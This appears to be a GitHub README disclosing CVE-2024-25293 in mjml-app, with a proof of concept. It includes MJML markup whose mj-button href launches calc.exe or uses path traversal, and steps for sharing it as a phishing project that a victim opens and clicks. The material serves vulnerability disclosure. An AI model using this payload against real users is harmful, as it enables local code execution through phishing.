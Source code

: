 # MJML Local Code Execution PoC

A Proof-Of-Concept for CVE-2024-25293 vulnerability. <br><br>
mjml-app v3.0.4 & 3.1.0-beta was discovered to contain a remote code execution (RCE)
In this repository there is an example vulnerable application and proof-of-concept (POC) exploit of it.

As a PoC there is a python file that automates the process. 
---------------------------------------

### 1.Vunerability Overview:
 * Vulnerability Subject: Local Code Execution
 * Vulnerability Version: mjml-app 3.0.4-win & mjml-app 3.1.0-beta
 * Attack Type: Remote Code Execution
 * Attack Component: In the 'mj-button' tag within the affected source code file, the 'href' attribute enables local code execution.
 * Reserved CVE Number: CVE-2024-25293

---------------------------------------

### 2. Vulnerability Cause:
*  mjml-app 3.0.4-win & mjml-app 3.1.0 beta suffers from Security Misconfiguration In the 'mj-button' tag, which can result in arbitrary code execution.
* Exploit explain
  * Running local files through event tags in mjml applications poses a security threat. In addition, the code can be executed by combining Path Traversal within the application, requiring a patch.
![image](https://github.com/EQSTLab/PoC/assets/131337101/98d338c6-812d-4329-93df-2c64bb636868)

Proof-of-concept (POC)
----------------------
**Step 1) The attacker creates an 'mj-button' with an 'href' tag and**
* **case 1) Code Execution with Path Traversal (notepad.exe)**
* **case 2) Code Execution (calc.exe)**

```html
<mjml>
  <mj-body>
    <mj-section>
      <mj-column>
        <mj-button background-color="#f45e43" color="white" href="C:\Users\EQST\Desktop\jruru\..\jruru_hacked.txt"> jruru </mj-button>
        <mj-button background-color="#f45e43" color="white" href="C:Windows/System32/calc.exe"> Code Execution </mj-button>
      </mj-column>
    </mj-section>
  </mj-body>
</mjml>
```
![mjml1](https://github.com/QnA4u/CVE/assets/131337101/862946a8-18f8-4d09-a850-6a296588780a)

**Step 2) The attacker creates the main phishing project with the following code.**
```py
<!-- header.mjml -->
<mj-section>
  <mj-column>
    <mj-text>This is a demo jruru</mj-text>
  </mj-column>
</mj-section>
<!-- main.mjml -->
<mj-include path="./index.mjml" />
```
![mjml2](https://github.com/QnA4u/CVE/assets/131337101/aaf108f9-a2d6-4e21-baf9-7f50266e5afa)

**Step 3) The victim opens the shared project and clicks the button, triggering the execution of payload(etc. calc , notepad)**
![mjml3](https://github.com/QnA4u/CVE/assets/131337101/a15a815f-94b8-4e20-b15f-a9d90c5dcdce)

---------------------------------------

### 3. Additional Information
Running exe files through href tags within an application is risky, and running files in combination with Path Traversal is a security concern. This allows phishing projects to be created and deployed to execute local files. Therefore, it is essential to modify this feature to prevent such execution.
